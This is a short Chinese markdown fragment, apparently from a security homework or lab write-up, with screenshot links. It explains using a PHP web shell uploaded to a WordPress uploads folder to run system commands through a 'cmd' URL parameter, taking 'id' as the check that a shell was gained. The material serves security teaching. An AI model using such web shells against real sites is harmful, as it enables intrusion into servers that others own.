     ![1747890861599](image/homework/1747890861599.png)
    ![1747890872341](image/homework/1747890872341.png)
   **第一种方法 :**
      - 通过 URL 参数 `cmd` 执行系统命令，例如：
         ```
         http://<your_ip>:<your_port>/wp-content/uploads/2025/05/c.php?cmd=id
         ```
      - 如果返回用户 ID 信息，则说明木马执行成功，获得了 Shell。